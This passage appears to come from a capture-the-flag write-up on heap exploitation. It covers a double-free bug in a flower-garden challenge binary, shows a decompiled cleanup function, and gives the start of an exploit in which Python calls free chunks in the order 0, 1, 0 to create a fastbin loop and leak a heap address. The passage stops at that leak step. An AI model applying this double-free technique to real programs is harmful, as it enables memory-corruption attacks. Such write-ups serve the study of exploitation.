 * It requires an index the check if that index in `array` is not `NULL` to `free` the `name` field
* It doesn't check if the `name` was `freed` so there's `double-free` vulnerability

`clean_garden` function


```cpp=
unsigned __int64 clear_arr_free_flower()
{
  _QWORD *pflower; // rbx
  _DWORD *flower; // rdi
  unsigned __int64 v3; // [rsp+8h] [rbp-20h]

  v3 = __readfsqword(0x28u);
  pflower = arr;
  do
  {
    flower = (_DWORD *)*pflower;
    if ( *pflower && !*flower )
    {
      free(flower);
      *pflower = 0LL;
      --flower_count;
    }
    ++pflower;
  }
  while ( pflower != &arr[100] );
  puts("Done!");
  return __readfsqword(0x28u) ^ v3;
}
```

* It interates the `array` and check if `name` field is `freed` (check if `bool` is `0` or not) to `free` the struct then zero out the `array`

## Exploit

### Leak heap

* To leak heap, first i trigger `double-free`, `malloc` `2` chunks then `free`

```python=
remove_flower(0)
remove_flower(1)
remove_flower(0)
```

Check in heap bins

![](https://hackmd.io/_uploads/By5UgH7nn.png)

We see that there's a loop in fastbin

* Now i `malloc` `3` chunks so `2` chunks will have the same `name` pointer, `free` a `name` and print it by another struct, i get the heap
